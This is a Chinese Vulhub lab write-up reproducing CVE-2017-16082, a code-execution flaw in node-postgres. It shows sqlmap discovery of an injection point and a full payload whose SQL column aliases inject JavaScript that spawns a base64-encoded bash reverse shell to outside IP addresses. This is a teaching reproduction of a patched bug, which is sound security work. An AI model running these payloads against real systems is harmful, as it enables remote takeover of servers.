 # node-postgres 代码执行漏洞 CVE-2017-16082

## 漏洞描述

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
- https://zhuanlan.zhihu.com/p/28575189

## 环境搭建

Vulhub编译及运行环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息。

![image-20220228110115261](./images/202202281101307.png)

用sqlmap即可发现此处存在注入点，且数据库为postgres：

```
python sqlmap.py -u http://your-ip:3000/?id=1 --dbs
```

![image-20220228110250087](./images/202202281102191.png)

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3R`+/*", 4 AS "*/`jcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= |base64 -d|bash`)//"

SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvd`+/*", 4 AS "*/`GNwLzEwMS40Mi4yMzcuNjEvMjMzMyAwPiYx |base64 -d|bash`)//"
```

将上述payload编码后发送：

![image-20220228111130445](./images/202202281111534.png)

成功执行命令，如反弹shell：

![image-20220228111037961](./images/202202281110043.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[P师傅的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。

